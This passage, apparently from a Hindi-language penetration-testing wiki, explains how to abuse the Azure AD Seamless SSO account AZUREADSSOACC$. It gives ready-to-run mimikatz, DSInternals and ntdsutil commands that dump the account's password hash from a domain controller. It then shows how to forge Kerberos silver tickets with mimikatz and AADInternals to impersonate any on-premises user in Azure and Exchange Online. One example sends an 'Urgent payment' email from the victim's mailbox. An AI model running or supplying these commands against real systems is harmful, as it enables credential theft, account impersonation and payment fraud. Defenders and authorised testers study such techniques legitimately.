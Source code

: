 उपयोगकर्ता **`AZUREADSSOACC$` का **पासवर्ड** कभी नहीं बदलता**। इसलिए, एक डोमेन एडमिन इस **खाते के हैश को समझौता** कर सकता है, और फिर इसका उपयोग **सिल्वर टिकट बनाने** के लिए कर सकता है ताकि **किसी भी ऑन-प्रेम उपयोगकर्ता के साथ** Azure से कनेक्ट किया जा सके:
```bash
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
> [!NOTE]
> वर्तमान जानकारी के साथ, आप डोमेन में किसी भी उपयोगकर्ता के लिए azure और entraid टोकन प्राप्त करने के लिए पहले बताए गए उपकरण **SeamlessPass** का उपयोग कर सकते हैं।
> आप `AZUREADSSOACC$` खाते के बजाय जिस पीड़ित का आप अनुकरण करना चाहते हैं, उसके पासवर्ड का हैश प्राप्त करने के लिए पिछले तकनीकों (और अन्य) का भी उपयोग कर सकते हैं।

#### Creating Silver Tickets

हैश के साथ, आप अब **generate silver tickets** कर सकते हैं:
```bash
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:autologon.microsoftazuread-sso.com /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:autologon.microsoftazuread-sso.com /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
### Using Silver Tickets with Firefox
